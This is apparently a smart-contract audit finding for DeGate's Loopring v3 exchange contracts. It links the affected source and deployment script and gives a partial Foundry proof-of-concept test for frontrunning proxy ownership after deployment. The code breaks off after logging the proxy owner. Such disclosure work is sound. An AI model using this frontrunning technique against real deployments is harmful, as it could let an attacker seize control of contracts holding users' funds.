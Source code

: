 https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/contracts/core/impl/DefaultDepositContract.sol#L54-L65

Deployment script:

https://github.com/degatedev/protocols/blob/degate_mainnet/packages/loopring_v3/migrations/8_deploy_exchange_v3.js

## Proof of concept
## PoC
Please copy/paste the code below into a file in the test directory of a foundry project called `ExchangeFrontrunTest.sol`

Please run the test with a fork of the mainnet
`forge test --fork-url {YOU_RPC_PROVIDER} --match-test test_FrontrunDeployer -vv`
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;
pragma abicoder v2;

import {Test, console} from "forge-std/Test.sol";
import "src/core/impl/ExchangeV3.sol";
import "src/core/impl/DefaultDepositContract.sol";
import "src/thirdparty/proxies/OwnedUpgradabilityProxy.sol";

contract ExchangeFrontrunTest is Test {
    // variable to hold implementation contract of ExchangeV3
    ExchangeV3 public exchange;

    // variable to hold implementation contract of DefaultDepositContract
    DefaultDepositContract public deposit;

    address deployer = makeAddr("deployer");
    address mevbot = makeAddr("mevbot");

    // variable to hold proxy contract of ExchangeV3
    OwnedUpgradabilityProxy proxy;
    // variable to hold proxy contract of DefaultDepositContract
    OwnedUpgradabilityProxy DepositProxy;


    function setUp() public {
        // deploy implementation and proxies as the correct deployer
        vm.startPrank(deployer);
        exchange = new ExchangeV3();
        deposit = new DefaultDepositContract();
        proxy = new OwnedUpgradabilityProxy();
        DepositProxy = new OwnedUpgradabilityProxy();
        proxy.upgradeTo(address(exchange));
        DepositProxy.upgradeTo(address(deposit));
        vm.stopPrank();
        
    }

    function test_FrontrunDeployer() public {
        //Just for information output the deployer and mevbot addresses
        console.log("[i] The address of the deployer is :",deployer);
        console.log("[i] The address of the mevbot is :",mevbot);
        // Retrieve the current owner of the ExchangeV3 proxy after the deployment
        (bool success,bytes memory callresp) = address(proxy).call(abi.encodeWithSignature("owner()"));
        address current = abi.decode(callresp,(address));
        console.log("[i] Owner of ExhangeV3 proxy directly after deployment :",current);
```